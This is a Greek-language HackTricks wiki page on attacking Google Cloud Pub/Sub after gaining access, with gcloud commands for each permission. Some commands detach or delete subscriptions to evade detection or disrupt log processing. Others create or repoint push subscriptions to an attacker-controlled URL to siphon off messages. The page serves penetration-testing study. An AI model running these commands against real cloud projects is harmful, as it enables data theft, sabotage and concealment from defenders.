 # GCP - Μετά Εκμετάλλευση Pub/Sub

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στα HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub ελέγξτε την ακόλουθη σελίδα:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Δημοσίευση ενός μηνύματος σε ένα θέμα, χρήσιμο για **αποστολή απροσδόκητων δεδομένων** και ενεργοποίηση μη αναμενόμενων λειτουργιών ή εκμετάλλευση ευπαθειών:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για να αποτρέψετε μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφύγετε την ανίχνευση.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για να αποτρέψετε μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφύγετε την ανίχνευση.\
Είναι δυνατόν να διαγράψετε ένα θέμα ακόμη και με συνδρομές που είναι συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποια ρύθμιση του θέματος για να το διαταράξετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσετε οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Λάβετε όλα τα μηνύματα σε έναν διακομιστή web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Δημιουργήστε ένα συνδρομή και χρησιμοποιήστε το για **ανάκτηση μηνυμάτων**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Διαγραφή ενός συνδρομητή** μπορεί να είναι χρήσιμο για να διαταράξετε ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποια ρύθμιση έτσι ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος στο οποίο μπορείτε να έχετε πρόσβαση (URL, πίνακας Big Query, Bucket) ή απλά για να το διαταράξετε.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζονται για να εκτελέσετε οποιαδήποτε από τις προηγούμενα σχολιασμένες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επιτεθείτε σε ένα σχήμα σε ένα θέμα έτσι ώστε τα μηνύματα να μην το πληρούν και συνεπώς το θέμα να διαταράσσεται.\
Αν δεν υπάρχουν κάποια σχήματα, ενδέχεται να χρειαστεί να δημιουργήσετε ένα.
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να μοιάζει με τη διαγραφή ενός σχήματος ώστε να μπορείτε να στείλετε μηνύματα που δεν συμμορφώνονται με το σχήμα. Ωστόσο, καθώς το σχήμα θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά στο θέμα. Έτσι αυτό είναι **ΑΝΕΠΙΤΥΧΕΣ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τα δικαιώματα που χρειάζονται για να εκτελέσετε οποιαδήποτε από τις προηγούμενα σχολιασμένες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα στιγμιότυπο όλων των μη επιβεβαιωμένων μηνυμάτων και θα τα επαναφέρει στη συνδρομή. Δεν είναι πολύ χρήσιμο για έναν εισβολέα, αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Μάθετε AWS χάκινγκ από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του GitHub.

</details>
